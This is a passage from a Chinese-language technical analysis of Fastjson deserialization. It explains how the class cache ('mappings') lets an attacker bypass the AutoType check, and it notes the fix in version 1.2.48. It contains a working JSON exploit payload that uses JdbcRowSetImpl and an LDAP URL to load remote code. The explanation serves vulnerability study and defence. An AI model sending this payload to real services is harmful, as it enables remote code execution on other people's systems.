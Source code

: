 他调用了`TypeUtils.loadClass`函数，前面我们讲过，他将使用`ClassLoader.loadClass`或`Class.forName`来载入类，在这一过程中，涉及到了`mappings`的操作

![image-20200413132644597](/images/talk-about-fastjson-deserialization-20200413/image-20200413132644597.png)

![image-20200413132704804](/images/talk-about-fastjson-deserialization-20200413/image-20200413132704804.png)

这里的`cache`默认为`true`，所以这里会直接将载入后的对象填入`mappings`

根据我们前面的分析，如果当前`mappings`里存在可控的类，那么不管开没开启`AutoType`，都会进行类还原；同时我们利用`Class.class`可以向`mappings`填充任意类，这导致绕过了前面的检测；

```java
// 举个例子
json = "{" + // 用Class载入com.sun.rowset.JdbcRowSetImpl，并缓存到mappings
          "{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
  					// 后续使用mappings里的com.sun.rowset.JdbcRowSetImpl来还原对象
          "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\"," +
          "\"dataSourceName\": \"ldap://localhost:1389/Exploit\"," +
          "\"autoCommit\": true}" +
        "}";
```

#### 修复后的版本

在1.2.48版本上对其进行了修复

在`MiscCodec`对Class的处理中，修改了`cache=false`

![image-20200413134143022](/images/talk-about-fastjson-deserialization-20200413/image-20200413134143022.png)
